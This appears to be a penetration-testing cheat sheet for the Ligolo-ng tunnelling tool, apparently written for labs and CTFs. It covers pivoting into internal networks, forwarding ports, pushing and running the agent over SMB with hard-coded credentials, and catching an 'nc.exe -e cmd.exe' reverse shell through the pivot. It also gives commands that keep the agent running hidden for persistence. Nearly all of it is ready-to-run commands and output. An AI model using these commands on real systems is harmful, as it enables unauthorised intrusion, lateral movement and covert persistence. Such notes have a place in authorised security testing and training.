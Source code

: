 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ligolo-ng

## Pivoting

{% tabs %}
{% tab title="1. Interface Setup" %}
Create and activate a new tunnel interface for `ligolo` :

```bash
# Create the interface
sudo ip tuntap add user kali mode tun ligolo
# Activate the interface
sudo ip link set ligolo up
```

On `Ligolo-ng >= v0.6`, this can be done in a single step:

```bash
ligolo-ng » interface_create --name ligolo
INFO[0006] Creating a new "ligolo" interface...
INFO[0006] Interface created!
ligolo-ng » interface_list
┌───────────────────────────┐
│ Available tuntaps         │
├───┬──────────┬────────────┤
│ # │ TAP NAME │ DST ROUTES │
├───┼──────────┼────────────┤
│ 0 │ ligolo   │            │
└───┴──────────┴────────────┘
```
{% endtab %}

{% tab title="2. Proxy" %}
When the environment has no internet availability, e.g. CTFs, practice labs, etc.:

```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

When there is internet available on the environment, e.g. on an actual test environment:

> _Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval._

```bash
./proxy -autocert -laddr 0.0.0.0:443
```
{% endtab %}

{% tab title="3. Agent" %}
From the target machine:

```bash
# When -autocert is used on the proxy
./agent -connect 10.129.204.146:11601:443 -retry
# When -selfcert is used on the proxy
./agent -connect 10.129.204.146:11601:443 -ignore-cert -retry
```
{% endtab %}

{% tab title="4. Interact" %}
asd

```bash
# List active sessions
ligolo-ng » session
# List interfaces of the target machine
[Agent : pivot@pivot-machine] >> ifconfig
```
{% endtab %}

{% tab title="5. Routes" %}
Add a route to the target network:

```bash
sudo ip route add 172.16.10.0/24 dev ligolo
```

On `Ligolo-ng (>= 0.6)` this can be done internally:

```bash
ligolo-ng » interface_add_route --name ligolo --route 172.16.10.0/24
INFO[3206] Route created.       
```

Finally, start the tunnel:

```bash
[Agent : pivot@pivot-machine] >> tunnel_start
```

Now, we can reach the `172.16.10.0/24` network from our Kali:

```bash
$ sudo nmap 172.16.10.0/24 -T4
```
{% endtab %}
{% endtabs %}

## Port-Forward

{% tabs %}
{% tab title="1. Routing" %}
To access local ports on the connected agent, `ligolo-ng` uses a hardcoded "magic" CIDR: `240.0.0.0/4`:

```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
{% endtab %}

{% tab title="2. Interact" %}
Now, any IP queried in this unused subnet is automatically redirected to the agent's `127.0.0.1`. For instance, the below scan will scan the target's loopback address (`127.0.0.1`):

```bash
$ nmap 240.0.0.1
```
{% endtab %}
{% endtabs %}

## Agent Transfer & Execution

We don't need elevated privileges on the target to use the `ligolo-agent`.

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Reverse Shell

We have a route to the target network, but the target network does not have a route to our attack host. Thus, if we want to catch a reverse shell from a target other than the pivot host:

{% tabs %}
{% tab title="1. Listener Setup" %}
Create a listener on the agent/pivot host (`0.0.0.0:3000`) that will redirect the traffic to our proxy/attack host (`127.0.0.1:4444`).

{% code overflow="wrap" %}
```bash
[Agent : pivot@pivot-machine] >> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:4444 --tcp
INFO[0373] Listener 0 created on remote agent!
```
{% endcode %}

Start listening from our attack host:

```bash
$ nc -lvnp 4444
listening on [any] 4444...
```
{% endtab %}

{% tab title="2. Connect from Target" %}
Transfer the binary to the target:

{% code overflow="wrap" %}
```bash
nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 --put-file 'nc.exe' 'c:\windows\temp\nc.exe'
```
{% endcode %}

Connect from the target to the pivot machine (`10.10.63.147`) on the listening port (`30000`):

{% code overflow="wrap" %}
```bash
$ nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 -x 'c:\windows\temp\nc.exe 10.10.63.147 3000 -e cmd.exe'
```
{% endcode %}

This will connect to the agent's listener and then forwarded to our proxy:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.45.237] 46144
...
C:\Windows\system32>whoami
nt service\mssql$sqlexpress

C:\Windows\system32>hostname
MS02
```
{% endtab %}
{% endtabs %}

## Persistence

{% code overflow="wrap" %}
```sh
# Linux targets
nohup /tmp/agent -connect 10.10.14.5:443 -ignore-cert > /dev/null 2>&1 &

# Windows targets
Start-Process -FilePath "C:\Windows\Temp\agent.exe" -ArgumentList "-connect 10.10.14.5:443 -ignore-cert" -WindowStyle Hidden
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://docs.ligolo.ng/" %}
{% endtab %}

{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
